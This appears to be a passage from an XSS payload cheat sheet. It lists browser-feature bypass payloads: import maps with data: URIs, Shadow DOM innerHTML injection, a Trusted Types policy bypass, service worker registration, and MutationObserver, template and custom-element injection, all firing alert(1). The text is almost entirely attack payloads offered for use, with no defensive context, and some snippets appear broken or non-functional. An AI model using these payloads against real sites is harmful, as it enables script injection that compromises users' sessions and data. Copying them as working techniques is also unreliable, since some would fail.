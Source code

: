 ### Modern Browser Bypass

Targeting modern browser features and APIs:

```js
# Import Maps Abuse
<script type="importmap">{"imports": {"x": "data:text/javascript,alert(1)"}}</script>
<script type="module">import 'x'</script>

# Shadow DOM Injection
<div id=x></div>
<script>
x.attachShadow({mode:'open'}).innerHTML='<img src=x onerror=alert(1)>'
</script>

# Trusted Types Bypass
<script>
trustedTypes.createPolicy('p',{createHTML:_=>\'<img src=x onerror=alert(1)>\'}).createHTML('')
</script>

# Service Worker Injection
<script>
navigator.serviceWorker.register('data:text/javascript,alert(1)')
</script>
```

### Advanced DOM Manipulation

Complex DOM manipulation techniques:

```js
# MutationObserver Abuse
<script>
new MutationObserver(function(m){
    alert(1);
    o.disconnect();
}).observe(document.body,{subtree:true,childList:true})
</script>

# Template Element Injection
<template><img src=x onerror=alert(1)></template>
<script>document.body.appendChild(document.querySelector('template').content.cloneNode(true))</script>

# Custom Elements Abuse
<script>
customElements.define('xss-test', class extends HTMLElement {
  connectedCallback() { alert(1) }
});
</script>
<xss-test></xss-test>
```
